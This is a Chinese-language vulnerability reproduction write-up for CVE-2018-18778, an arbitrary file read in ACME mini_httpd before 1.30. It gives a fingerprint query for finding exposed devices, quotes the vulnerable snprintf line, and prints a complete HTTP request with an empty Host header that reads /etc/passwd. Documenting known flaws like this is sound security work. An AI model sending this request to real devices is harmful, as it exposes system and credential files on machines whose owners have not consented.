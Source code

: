 # ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

<a-checkbox checked>ACME mini_httpd before 1.30</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ACME-mini_httpd"</a-checkbox></br>

## 漏洞复现

指纹信息

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651364999726-9489ab39-a1ab-4a52-b979-c2be1b30f708-20220501090543203.png)

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```java
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```java
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651365228889-3cc62bb4-cb20-49d0-a6f6-c91258efc211-20220501090543427.png)